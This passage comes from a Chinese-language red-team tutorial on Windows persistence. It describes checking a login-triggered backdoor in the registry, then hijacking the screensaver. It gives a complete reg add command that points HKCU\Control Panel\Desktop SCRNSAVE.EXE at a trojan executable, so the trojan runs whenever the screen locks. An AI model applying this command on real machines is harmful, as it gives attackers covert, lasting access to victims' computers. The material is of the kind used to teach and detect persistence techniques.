

### 6.2.3. 查看注册表

这里我们查看一下注册表中是否修改了，由于这里是虚拟机，不好截图，但是可以看到后面是添加了内容的。



### 6.2.4. 查看效果

可以看到这里触发登陆就成功上线了。



## 6.3. 屏保生效执行后门

这里也可以使用屏保生效后执行后门，正常电脑屏幕在一段时间后都会自动进行屏幕保护，而这里就是借用屏幕包含自动执行的时候，同时执行后门。

### 6.3.1. 查看注册表

如果选择了屏幕保护程序那么注册表`HKEY_CURRENT_USER\Control Panel\Desktop`中SCRNSAVE.EXE的值就是对应的屏幕保护程序，如果把这个值改为我们的木马程序那么当开启屏幕保护时也就触发了木马。

但是我这里看了一下，我的注册表中好像是没有这个程序的，莫名其妙的，不过我发现可以自己添加。


### 6.3.2. 修改注册表

这里修改完也相当于就添加了一个木马。

```
reg add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\1\3000.exe" /f
```



### 6.3.3. 查看效果

这里进行锁屏后就可以看到成功上线了。

